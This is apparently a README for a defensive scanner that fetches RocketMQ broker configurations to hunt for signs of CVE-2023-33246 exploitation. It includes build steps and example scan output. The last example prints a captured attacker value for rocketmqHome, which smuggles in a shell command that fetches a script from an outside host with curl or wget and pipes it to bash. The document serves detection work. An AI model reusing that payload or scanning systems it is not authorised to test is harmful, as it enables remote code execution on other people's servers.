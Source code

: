 # Fetch Broker Configuration

Fetch Broker Configuration will try to download the RocketMQ broker configuration in order to hunt for indicators of compromise in the `rocketmqHome` variable. The variable is used by various attackers to execute code via [CVE-2023-33246](https://nvd.nist.gov/vuln/detail/CVE-2023-33246). For additional details, see the [VulnCheck blog](https://vulncheck.com/blog/rocketmq-exploit-payloads).

## Compiling

```sh
albinolobster@mournland:~/fetch-broker-conf$ make
gofmt -d -w main.go
golangci-lint run --fix main.go
GOOS=linux GOARCH=arm64 go build -o build/main_linux-arm64 main.go
```

## Usage

The tool is built on top of [go-exploit](https://github.com/vulncheck-oss/go-exploit), so there are multipe ways to provide targets to scan. A full description can be found in the project's [scanning documentation](https://github.com/vulncheck-oss/go-exploit/blob/main/docs/scanning.md). However, the following shows some examples:

### Scanning One Host

```sh
albinolobster@mournland:~/fetch-broker-conf$ ./build/main_linux-arm64 -a -e -rhost 10.9.49.143 -rport 10911 -log-json true | jq 'select(.msg == "Extracted the variable")'
{
  "time": "2023-09-05T05:27:48.567836165-04:00",
  "level": "SUCCESS",
  "msg": "Extracted the variable",
  "rocketmqHome": "/rocketmq-all-5.1.0-bin-release",
  "host": "10.9.49.143",
  "port": 10911
}
```

### Scanning Multiple Hosts

```sh
albinolobster@mournland:~/fetch-broker-conf$ ./build/main_linux-arm64 -a -e -rhosts 10.9.49.143,10.9.49.150 -rport 10911 -log-json true | jq 'select(.msg == "Extracted the variable")'
{
  "time": "2023-09-05T05:34:27.505747211-04:00",
  "level": "SUCCESS",
  "msg": "Extracted the variable",
  "rocketmqHome": "/rocketmq-all-5.1.0-bin-release",
  "host": "10.9.49.143",
  "port": 10911
}
{
  "time": "2023-09-05T05:34:27.802345043-04:00",
  "level": "SUCCESS",
  "msg": "Extracted the variable",
  "rocketmqHome": "/rocketmq-all-5.1.0-bin-release",
  "host": "10.9.49.150",
  "port": 10911
}
```


### Scanning a File of Hosts Using a Proxy

go-exploit provides the ability to scan via a provided target csv, where the csv is: `host, port, anything if ssl is enabled` (although the SSL field is ignored if -a is used). It also provides the ability to scan through a proxy. The command works like so (note that `-a` is SSL autodetection):

```sh
albinolobster@mournland:~/rocketmq-broker-conf$ ./build/main_linux-arm64 -a -e -rhosts-file /tmp/rocketmq.csv -proxy socks5://127.0.0.1:9050 -log-json true 2>/dev/null | jq 'select(.msg == "Extracted the variable")'
{
  "time": "2023-08-31T13:45:35.781849255-04:00",
  "level": "SUCCESS",
  "msg": "Extracted the variable",
  "rocketmqHome": "-c $@|sh . echo (curl -s x.x.x.x/rm.sh||wget -q -O- x.x.x.x/rm.sh)|bash;",
  "host": "x.x.x.x",
  "port": 10909
}
```

